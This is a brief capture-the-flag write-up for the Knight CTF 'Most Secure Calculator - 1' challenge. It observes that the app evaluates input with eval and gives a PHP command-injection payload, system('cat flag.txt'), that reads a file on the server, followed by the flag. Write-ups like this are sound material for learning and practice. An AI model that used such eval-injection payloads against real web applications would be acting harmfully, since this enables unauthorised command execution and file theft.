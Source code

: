 # Knight CTF - Most Secure Calculator - 1

Sound like eval stuff --> yes

/index.php --> yes

**payload**: system('cat flag.txt')

**flag**: KCTF{WaS_mY_cAlCuLaToR_sAfE}